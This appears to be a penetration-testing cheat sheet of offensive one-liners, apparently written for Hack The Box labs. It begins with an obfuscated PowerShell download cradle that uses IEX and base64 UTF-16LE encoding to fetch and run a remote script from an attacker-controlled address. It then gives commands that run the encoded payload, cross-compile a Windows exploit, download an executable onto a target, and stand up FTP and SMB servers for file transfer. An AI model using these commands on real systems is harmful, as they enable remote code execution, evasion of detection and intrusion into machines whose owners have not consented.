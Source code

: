 # Convert Powershell Code into base64 Encoded UTF-16LE String
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

# Convert Powershell Code into base64 Encoded UTF-16LE String (Python)
from base64 import b64encode
b64encode('iex(command)'.encode('UTF-16LE'))

# Convert Powershell Code into base64 Encoded UTF-16LE String (Ruby)
require "base64"
Base64.encode64('iex(command)'.force_encoding('UTF-16LE'))

# Execute a powershell encoded command
powershell -ec "<Base64UTF16LEEncodedString>"

# Compile windows exploit in linux
i686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe

# Compiling python scripts to executables
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py

# Download a file from powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/afile.exe','C:\Users\YOURUSER\Desktop\afile.exe')"

# Open an FTP Server (from python)
pip install pyftpdlib
python -m pyftpdlib -p 21

# Open an FTP Server (from metasploit)
use auxiliary/server/ftp
auxiliary/server/tftp

# Open an SMB Server
python smbserver.py WORKSPACE /dir
smbserver.py devel /root/Desktop/htb/devel 
